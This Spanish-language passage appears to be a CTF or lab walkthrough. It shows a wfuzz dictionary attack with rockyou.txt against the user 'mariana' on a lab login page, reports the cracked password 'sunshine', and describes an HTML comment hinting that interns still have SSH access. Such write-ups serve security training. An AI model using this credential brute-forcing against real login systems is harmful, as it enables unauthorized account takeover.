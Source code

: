 Con esta información ya podemos intentar un **ataque de diccionario** para obtener la contraseña de **mariana** (si es que el usuario existe, claro). Usaremos **wfuzz** en esta ocasión.

```shell
wfuzz -c -z file,/usr/share/wordlists/rockyou.txt -d '{"username":"mariana","password":"FUZZ"}' -H 'Content-Type: application/json' --sc 200 www.gatekeeperhr.com/lab/login.php
```

Hallamos la contraseña en la línea 26 del rockyou.txt, resultó ser **sunshine**.

![Wfuzz - Password Found](assets/wfuzz-password-found.png)

Nos logueamos para ver el contenido del dashboard. Y tenemos una lista de empleados.

![Web - Employees](assets/web-employees.png)

Vemos el código fuente de la página y nos hallamos con el siguiente comentario.

```html
<tbody id="employeeTableBody">
    <!-- Quitar los permisos SSH a los pasantes, ya terminará el tiempo de pasantía -->
</tbody>
```
